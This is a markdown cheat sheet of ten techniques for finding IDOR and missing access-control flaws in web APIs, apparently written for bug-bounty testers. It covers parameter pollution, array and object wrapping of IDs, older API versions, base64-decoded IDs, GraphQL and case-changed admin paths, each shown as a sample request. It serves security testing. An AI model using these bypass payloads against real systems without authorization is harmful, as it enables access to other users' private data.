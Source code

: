 ## IDOR (Insecure Direct Object Reference)
1. Add parameters onto the endpoints for example, if there was
```html
GET /api/v1/getuser
[...]
```
Try this to bypass
```html
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution

```html
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint

```html
GET /v2/GetData/1234
[...]
```
Try this to bypass
```html
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions

```html
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```html
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution

```html
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```

10. MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```

Source: [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup!
